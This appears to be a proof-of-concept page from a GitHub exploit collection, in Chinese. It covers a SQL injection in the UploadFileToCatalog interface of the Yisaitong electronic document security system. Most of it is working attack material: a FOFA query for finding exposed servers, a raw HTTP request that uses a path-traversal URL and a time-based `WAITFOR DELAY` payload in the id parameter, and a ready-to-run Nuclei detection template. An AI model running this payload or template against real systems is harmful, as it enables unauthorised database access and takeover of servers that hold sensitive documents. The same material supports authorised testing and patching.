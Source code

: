 ## 亿赛通电子文档安全管理系统 UploadFileToCatalog SQL注入漏洞

亿某通电子文档安全管理系统 UploadFileToCatalog接口的id参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa
```
body="/CDGServer3/index.jsp"
```

## poc
```
POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
id=1';WAITFOR DELAY '0:0:3'--
```

![8ce5da8fddd2d106e5eadb6e6c705f69](https://github.com/wy876/POC/assets/139549762/4fdf4a1c-f49a-47bc-9c1c-3d663b1d62e6)

## Nuclei
```
id: CDG-UploadFileToCatalog-SQL

info:
  name:  由于某赛通电子文档安全管理系统 UploadFileToCatalog接口的id参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限
  author: WLF
  severity: high
  metadata: 
    fofa-query: body="/CDGServer3/index.jsp"
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"
http:
  - raw:
      - |
        POST /CDGServer3/js/../policy/UploadFileToCatalog?fromurl=../user/dataSearch.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        Upgrade-Insecure-Requests: 1
        
        id=1';WAITFOR DELAY '0:0:5'--



      

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - 'duration>=4 && duration<=7'

      - type: dsl
        dsl:
           - status_code == 200
```
